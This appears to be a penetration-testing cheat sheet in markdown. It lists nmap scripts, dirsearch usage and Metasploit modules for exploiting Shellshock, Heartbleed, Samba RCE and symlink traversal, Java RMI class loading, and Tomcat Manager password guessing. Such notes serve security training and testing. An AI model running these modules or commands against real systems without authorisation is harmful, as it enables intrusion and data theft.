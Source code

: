 ### Shellshock
* vulnerable through cgi paths
* `./dirsearch.py -u <URL> -e cgi -r`
* usually exploited through *User-Agent* HTTP header
`--script http-shellshock` - nmap script

### Heartbleed
* `--script ssl-heartbleed` - nmap vuln script
* Metasploit `use auxiliary/scanner/ssl/openssl_heartbleed` - exploitation
    * `show actions` - additional actions for the selected module

### Samba
* below 4.6.4 contains vulns that allow RCE
__Username Map Script
* msf> `use exploit/multi/samba/usermap_script`
__Samba Symlink Directory Traversal__
1. msf> `auxiliary/admin/smb/samba_symlink_traversal`
2. `smbclient \\\\<IP>\\<folder> -N`
3. smb> `cd rootfs` 

### Java RMI
* Port __1099/TCP__
* impacts default configurations of *RMI Registry* and *RMI Activation Services*
* allows loading of arbitrary Java classess form attacker-defined URL
* `nmap -sV -p 1099` -> service identified by __GNU Classpatch Registry Fingerprint__
* msf> `exploit/multi/misc/java_rmi_server`

### Apache Tomcat
* Port __8180/TCP__
* Password guessing for Tomcat Manager - `msf> use auxiliary/scanner/http/tomcat_mgr_login`
